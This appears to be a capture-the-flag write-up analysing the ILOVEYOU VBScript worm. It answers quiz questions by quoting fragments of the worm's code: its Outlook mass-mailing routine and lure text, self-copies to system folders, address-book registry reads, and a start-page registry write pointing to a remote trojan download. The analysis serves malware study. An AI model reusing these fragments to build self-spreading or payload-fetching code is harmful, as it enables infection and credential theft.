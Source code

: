 # ILOVEYOU

ILOVEYOU the 3 magical words which have an impact in most of the people's life.
On the other hand these 3 words don't need any introduction for the people in the Infosec industry. <br>

Let's relive history by analysing the ‘ILOVEYOU’ malware.

# Questions

## What is the text present as part of email when the victim received this malware? 

Checking the malware, there is a subroutine named **spreadtoemail()** which sends emails to the contactlist of the infected machine. There we can see all the components of the email since the malware is not obfuscated
``` 
male.Subject = "ILOVEYOU"
male.Body = vbcrlf & "kindly check the attached LOVELETTER coming from me."
male.Attachments.Add(dirsystem & "\LOVE-LETTER-FOR-YOU.TXT.vbs")
```
**Answer:** kindly check the attached LOVELETTER coming from me.

## What is the domain name that was added as the browser's homepage? 

We can see the malware modifying the Internet Explorer Registry keys for the initial page
```
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\StartPage", "http://www.skyinet.net/~young1s/HJKhjnwerhjkxcvytwertnMTFwetrdsfmhPnjw6587345gvsdf7679njbvYT/WIN-BUGSFIX.exe"
```
**Answer:** http://skyinet.net

## The malware replicated itself into 3 locations, what are they?

```
c.Copy(dirsystem & "\MSKernel32.vbs")               -> C:\Windows\System32\MSKernel32.vbs
c.Copy(dirwin & "\Win32DLL.vbs")                    -> C:\Windows\Win32DLL.vbs
c.Copy(dirsystem & "\LOVE-LETTER-FOR-YOU.TXT.vbs")  -> C:\Windows\System32\LOVE-LETTER-FOR-YOU.TXT.vbs
```
**Answer:** C:\Windows\System32\MSKernel32.vbs, C:\Windows\System32\LOVE-LETTER-FOR-YOU.TXT.vbs, C:\Windows\Win32DLL.vbs

Note: It needed to be in this sequence for some reason

## What is the name of the file that looks for the filesystem? 

Well, not much to say, just by reading the source code we get the answer
```
rem Check if a file named "WinFAT32.exe" exists in the system files.
```
**Answer:** WinFAT32.exe

## Which file extensions, beginning with m, does this virus target?

Same as before, just reading
```
ElseIf (ext = "mp3") Or (ext = "mp2") Then
```
**Answer:** mp2, mp3

## What is the name of the file generated when the malware identifies any Internet Relay Chat service? 

Once again... just read the code
```
rem Looks for mIRC and related files to determine whether it
rem should create/replace its script.ini with a malicious script.
```
**Answer:** script.ini

## What is the name of the password stealing trojan that is downloaded by the malware?

[Source] (https://www.f-secure.com/v-descs/love.shtml)
```
The executable part the LoveLetter worm downloads from the web is a password stealing trojan. On the system startup the trojan tries to find a hidden window named 'BAROK...'. If it is present, the trojan exits immediately, in other case the main routine takes control. 
```

**Answer:** BAROK

## What is the name of the email service that is targeted by the malware?

```
Set out = WScript.CreateObject("Outlook.Application")
```
**Answer:** Outlook

## What is the registry entry responsible for reading the contacts of the logged in email account?

``` 
rem Goes through all contacts in the address book and sends an email
  rem with the LOVE-LETTER-FOR-YOU program as an attachment.
  For ctrlists = 1 To mapi.AddressLists.Count
    Set a = mapi.AddressLists(ctrlists)
    x = 1
    regv = regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\" & a)
```
**Answer:** HKEY_CURRENT_USER\Software\Microsoft\WAB\

## What is the value that is stored in the registry to remember that an email was already sent to a user?

We can see, after the email is composed and sent, that a registry key is modified

```
ACTION           KEY                                                 VALUE  SIZE
regedit.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\WAB\" & malead, 1, "REG_DWORD"
```
**Answer:** 1